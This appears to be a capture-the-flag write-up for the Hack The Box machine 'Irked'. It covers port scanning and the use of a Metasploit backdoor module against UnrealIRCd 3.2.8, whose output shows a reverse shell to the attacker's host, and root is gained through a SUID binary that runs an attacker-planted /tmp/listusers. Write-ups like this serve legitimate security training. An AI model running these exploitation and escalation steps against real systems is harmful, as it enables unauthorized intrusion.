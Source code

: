 # Irked
### Info:

OS: Linux <br>
IP: 10.10.10.117 <br>
Difficulty : easy-medium <br>

### Enumeration:
```nmap  -p0-10000 10.10.10.117 -T5``` <br>

gives us the results : <br>

```
Nmap scan report for 10.10.10.117
Host is up (0.72s latency).
Not shown: 9996 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
6697/tcp open  ircs-u
8067/tcp open  infi-async

Nmap done: 1 IP address (1 host up) scanned in 884.18 seconds
```
Seeing irc service at port 6697 we use hexchat client which gives us:
```
Your host is irked.htb, running version Unreal3.2.8 
```
### Exploitation:
we search for that version on msfconsole : 
```
msf > search Unreal
[!] Module database cache not built yet, using slow search

Matching Modules
================

   Name                                        Disclosure Date  Rank       Description
   ----                                        ---------------  ----       -----------
   exploit/linux/games/ut2004_secure           2004-06-18       good       Unreal Tournament 2004 "secure" Overflow (Linux)
   exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  UnrealIRCD 3.2.8.1 Backdoor Command Execution
   exploit/windows/games/ut2004_secure         2004-06-18       good       Unreal Tournament 2004 "secure" Overflow (Win32)
```

Using `exploit/unix/irc/unreal_ircd_3281_backdoor` :
```
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > run
[*] Started reverse TCP double handler on 10.10.16.16:1337 
[*] 10.10.10.117:6697 - Connected to 10.10.10.117:6697...
    :irked.htb NOTICE AUTH :*** Looking up your hostname...
[*] 10.10.10.117:6697 - Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo fyw93WRBr4nLaTxv;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "fyw93WRBr4nLaTxv\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.16.16:1337 -> 10.10.10.117:59603) at 2019-01-10 15:54:18 +0530
/bin/bash -i
bash: cannot set terminal process group (637): Inappropriate ioctl for device
bash: no job control in this shell
ircd@irked:~/Unreal3.2$ 
```
Gives us the shell.

### Privilege Escalation:
Running `find / -perm -u=s -type f 2>/dev/null` :
```
ircd@irked:~/Unreal3.2$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/sbin/exim4
/usr/sbin/pppd
/usr/bin/chsh
/usr/bin/procmail
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/X
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/viewuser
/sbin/mount.nfs
/bin/su
/bin/mount
/bin/fusermount
/bin/ntfs-3g
/bin/umount
```
We find a non-standard linux binary : `/usr/bin/viewuser` <br>
```
/usr/bin/viewuser
(unknown) :0           2019-01-08 16:39 (:0)
sh: 1: /tmp/listusers: not found
This application is being devleoped to set and test user permissions
It is still being actively developed

```
Making `/tmp/listusers` and putting `shellcode (/bin/sh)` and making it executable, <br>and then running `/usr/bin/viewuser` we get the root

### Things Learned :

Complete Port scanning 

Using exploit unreal_ircd_3281_backdoor

Basic linux Privilege Escalation
